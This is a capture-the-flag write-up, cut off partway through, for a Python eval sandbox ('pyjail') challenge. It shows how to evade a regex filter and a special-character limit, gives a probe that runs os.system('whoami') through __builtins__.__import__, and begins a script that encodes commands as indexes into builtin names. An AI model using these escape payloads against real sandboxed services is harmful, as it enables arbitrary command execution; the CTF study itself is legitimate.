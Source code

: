 - The regex `[a-zA-Z]{4}` is checking whether a 4 chars long string is there in starting without any symbols or numbers in the input

- We can easily bypass this by adding a non alphabetic character in the beginning

```python=
code = '2winner'
discovery = list(eval(compile(code, "<code>", "eval").replace(co_names=())))
Traceback (most recent call last):
  File "<pyshell#1>", line 1, in <module>
    discovery = list(eval(compile(code, "<code>", "eval").replace(co_names=())))
  File "<code>", line 1
    2winner
    ^
SyntaxError: invalid decimal literal
```

- Then we have to bypass this

```python=
elif len(set(re.findall(r"[\W]", code))) > 4:
    print(set(re.findall(r"[\W]", code)))
    print("A single code cannot process this much special characters. Restarting.")
```

- We can do this by using builtin functions

```
Let's Start: (lambda: __builtins__.__import__("os").system("whoami"))()
{' ', ':', ')', '/', '(', '.', '"'}
A single code cannot process this much special characters. Restarting.

```

- Since we want to read the flag , we need to make a script , so make the following script

```python=
def payload_creator(cmd):
    mapping = {
        'o': "open.__name__.__getitem__(0)",
        's': "set.__name__.__getitem__(0)",
        'c': "chr.__name__.__getitem__(0)",
        'h': "hash.__name__.__getitem__(0)",
        'e': "eval.__name__.__getitem__(0)",
        'a': "abs.__name__.__getitem__(0)",
        'd': "divmod.__name__.__getitem__(0)",
        'f': "float.__name__.__getitem__(0)",
        'l': "list.__name__.__getitem__(0)",
        'g': "globals.__name__.__getitem__(0)",
        't': "type.__name__.__getitem__(0)",
        'x': "hex.__name__.__getitem__(2)",
        ' ': "str(hash).__getitem__(9)",
        '-': "str(hash).__getitem__(6)",
        '.': "hash.__doc__.__getitem__(151)",
        '1': "dict.__doc__.__getitem__(361)",
        '/': "divmod.__doc__.__getitem__(20)",
        'b': "abs.__name__.__getitem__(1)",
        'i': "list.__name__.__getitem__(1)"
        
    }
    for k,v in mapping.items():
        assert(k == eval(v))
    
    payload=''
    for ch in cmd:
        encoded_ch = mapping[ch]
        if len(payload) == 0:
            payload = encoded_ch
        else:
```